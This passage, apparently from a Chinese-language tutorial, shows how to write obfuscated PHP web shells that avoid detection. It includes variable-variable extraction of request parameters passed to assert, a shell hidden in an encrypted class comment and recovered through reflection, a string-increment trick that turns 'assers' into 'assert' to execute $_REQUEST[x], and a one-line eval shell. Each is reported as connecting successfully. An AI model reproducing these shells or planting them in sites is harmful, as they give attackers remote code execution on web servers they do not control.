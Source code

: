 ```

echo $zhushi;



foreach (array('_POST','_GET') as $_request) {

foreach ($$_request as $_key=&gt;$_value) {

$$_key= $_value;

}

}

/*设置一个数组，参数为_POST,_GET,然后把该数组用$_request去表示，再设置一个遍历，把$_request设为一个可变变量，再键值分离

再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容

*/

$zhushi($_value);

//最后就是assert(传入的变量值)

?&gt;
```

原理就是通过把shell加密并放到注释里，利用类的反射机制获取类的注释，再解密去生成shell<br/> 测试可以成功连接

#### 3.利用字符的运算符​​​​​​​

```
&lt;?php

$__="assers";

++$__;

//echo ++$__;

$__($_REQUEST[x]);

?&gt;
```

设$__ 为字符串assers,然后对这个字符串进行自增操作，这里++是直接对这个字符串里的最后一个字符进行自增操作，得到结果为assert，然后去拼接($_REQUEST[x]);，生成shell

测试可以正常连接

```
&lt;?php eval(end($_REQUEST));?&gt;
```
